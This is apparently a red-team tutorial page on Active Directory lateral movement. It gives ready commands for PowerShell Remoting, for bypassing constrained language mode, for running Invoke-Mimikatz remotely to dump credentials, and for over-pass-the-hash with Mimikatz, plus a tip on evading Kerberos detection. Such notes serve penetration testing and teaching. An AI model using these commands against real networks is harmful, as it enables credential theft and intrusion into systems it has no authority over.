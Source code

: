 ```yaml
---
title: Lateral Movement
category: Active Directory
order: 3
---
```


# PowerShell Remoting

Once a machine is compromised, we need to jump to others in order to find more valuable targets. For that task we can use `PowerShell Remoting` which is increasingly used in enterprises and enabled by default on Server 2012 onwards. PowerShell Remoting uses WinRM protocol, so you can check `evil-winrm` tool. Admin privileges on the target machineis needed.

> **Note**: Maybe you need to enable remoting `Enable-PSRemoting` on a Desktop windows machine and Admin privs are required.

You can get a elevated shell (`NT AUTHORITY\SYSTEM`) on the remote server if the credentials of the user administrator are used to authenticate (default setting).

## Using Credentials

We can use other credentials:
```
$user='WORKGROUP\User'; 
$pass='passwd';
$cred = (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```
And use it with the parameter `-Credential`

## Creating a Session

There are two types of PowerShell Remoting:

* **One-to-One**: It is interactively login to another machine. Create a new session on the target machine so runs in a new process (wsmprovhost). 

```powershell
Enter-PSSession -ComputerName machine01.corp.local
Enter-PSSession -ComputerName machine01.corp.local -Credential $cred
```
We can also first create the session and append to it later.

```powershell
$sess = New-PSSession -ComputerName machine01.corp.local
Enter-PSSession -Session $sess
```
> **Note**: We can put a session in background if the session is stored in a variable. Very useful.


* **One-to-Many**: It is also known as Fan-out remoting. It is a non-interactive shell but we can execute commands parallely. Is useful to run commmands and scripts on multiple remote computers, in disconnected sessions and as a background job.

```powershell
Invoke-Command -ComputerName machine01.corp.local -ScriptBlock {whoami;hostname}
Invoke-Command -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ComputerName machine01.corp.local -FilePath .\file.ps1
```
> **Note**: One of the best things in PowerShell to do PassTheHash, using credentials and executing commands on multiple remote computers.

> **RedTeam Note**: Since admin privs are needed is a useful tool to check if the user has admin privs on the target machine.

### PowerShell Constrained Language Mode ByPass

By default PowerShell Remote run the script in a `ConstrainedLanguage` mode so we can not run some cmdlets which are considered to be unsafe. To check the type of language run the following command:

```powershell
$ExecutionContext.SessionState.LanguageMode
```
Enabling constrained language mode, that dows not allow powershell execute complex ataccks such as mimikatz.

```powershell
[Environment]::SetEnvironmentVariable(‘__PSLockdownPolicy‘, ‘4’, ‘Machine‘)
```
However, if you have access to the system and enough privileges to change environment variables, you can bypass it by removing the variable `__PSLockdownPolicy` and re-spawning another PowerShell instance.

#### PowerShell Downgrade

If PowerShell 2.0 is installed we can bypass it via spawning a PowerShell 2.0 instance.

```powershell
powershell -version 2
```
[https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass)

## Execute locally loaded funcitons on the remote machine

We can execute locally loaded function on the remote machine.

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ArgumentList "-List hello" -ComputerName (Get-Content .\servers.txt)
```
## Load a script remotely

we can load a script remotely.

```powershell
Invoke-Command -FilePath .\hello.ps1 -Session $sess
Enter-PSSession -Session $sess

[machine01.corp.local]: PS C:\> hello
Hello World!
```
## Execute "Stateful" commands

We can execute "Stateful" commands.

```powershell
$sess = New-PSSession -ComputerName server1
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

# Dump credentials

Once we have administrator privileges on the target machine we can dump credentials with `Invoke-Mimikatz`. See this section:

[https://mvc1009.github.io/hackingnotes/post-exploitation/get-credentials/](/hackingnotes/post-exploitation/get-credentials/).

To avoid save mimikatz on disk we need to load remotely.

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-Command -Session $sess -ScriptBlock {Invoke-Mimikatz -DumpCreds}
```
Or we can execute locally loaded functions.

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Command -Session $sess -ScriptBlock {function:Invoke-Mimikatz -DumpCreds}
```

# Over-Pass-the-Hash / Pass-The-Key

Abusing kerberos functionality we can execute commands as another user by only knowing the NTLM hash.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

> **RedTeam Note**: There is a different in encryption type for timestamp between a normal `krb-as-req` and one using the Over-Pass-the-hash `krb-as-req`
> * Over-Pass-the-hash krb-as-req etype flag: `eTYPE-ARCFOUR-HMAC-MD5 (23)`
> * Normal krb-as-req etype flag: `eTYPE-AES256-CTS-HMAC-SHA1-96 (18)`
>
> To reduce the cahnces of detection use `aes256`, `aes128` and `NTLM(RC4)` together.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /aes256:<aes256> /aes128:<aes128> /ntlm:<ntlmhash> /run:powershell.exe"'
```